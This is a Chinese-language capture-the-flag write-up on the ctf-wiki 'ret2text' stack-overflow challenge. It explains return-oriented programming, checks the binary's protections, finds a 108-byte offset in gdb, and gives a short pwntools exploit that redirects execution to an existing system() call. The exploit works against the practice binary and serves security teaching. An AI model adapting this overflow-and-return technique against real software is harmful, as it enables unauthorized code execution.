

## 前言
ROP返回导向编程，其主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段（gadgets）来改变某些寄存器或者变量的值，从而控制程序的执行流程。所谓的gadgets就是以ret结尾的指令序列。通过这些指令序列，可以修改某些地址的内容，方便控制程序的执行流程。

**ret2text**  即控制程序执行程序本身已有的代码（.text）。简单理解就是控制执行程序去执行文件中已有的代码或者几段不相邻的程序已有的代码。
[题目链接](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text)
## 1.题目信息
### 1.1 查看保护机制


32位程序
重定位表：部分开启
堆栈不可执行：开启
栈保护：关闭
地址无关代码：关闭
### 1.2 查看题目信息

查看题目信息是溢出，但是没有其他泄露的漏洞。继续查看题目是否自带有system等代码。

这个随机数的生成用法正确，每次生成的都是随机数，所以很难执行system()函数。此外这个secure函数没有入口，无法调用。
## 2.解题思路
存在有缓冲区溢出漏洞则可以控制返回地址到system函数代码处，即

### 2.1 确定缓冲区大小

gdb 中运行程序,并将上述生成的数据输入到程序中。
```
gdb-peda$ r < code
```

使用pattern offset “MAAi”判断偏移

可得缓冲区大小为108

poc：
```
from pwn import *

context.log_level = 'debug'
io = process('./ret2text')
io.recvline()
payload= flat(['a'*108, 'a'*4 ,0x804863a])
io.sendline(payload)
io.interactive()
```
结果：
